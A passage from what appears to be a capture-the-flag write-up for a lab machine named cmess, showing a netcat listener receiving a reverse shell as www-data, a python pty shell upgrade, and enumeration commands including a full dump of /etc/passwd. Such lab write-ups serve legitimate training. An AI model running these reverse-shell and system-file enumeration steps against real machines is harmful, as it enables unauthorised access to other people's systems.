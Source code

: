 ```bash
                                                                                                                    
┌──(kali㉿kali)-[~/Desktop/oscp/cmess]
└─$ nc -nvlp 1234                                                  
listening on [any] 1234 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.141.169] 43294
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:27:38 up  1:36,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

This is a `dumb` shell, so we can upgrade it as:

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@cmess:/$ 
```

Now, that we have a shell we can try to find the user flag.

First, we can check a few basic things about the machine:

```bash
www-data@cmess:/$ whoami
whoami
www-data
www-data@cmess:/$ pwd
pwd
/
www-data@cmess:/$ uname -a
uname -a
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@cmess:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
andre:x:1000:1000:andre,,,:/home/andre:/bin/bash
mysql:x:108:117:MySQL Server,,,:/nonexistent:/bin/false
```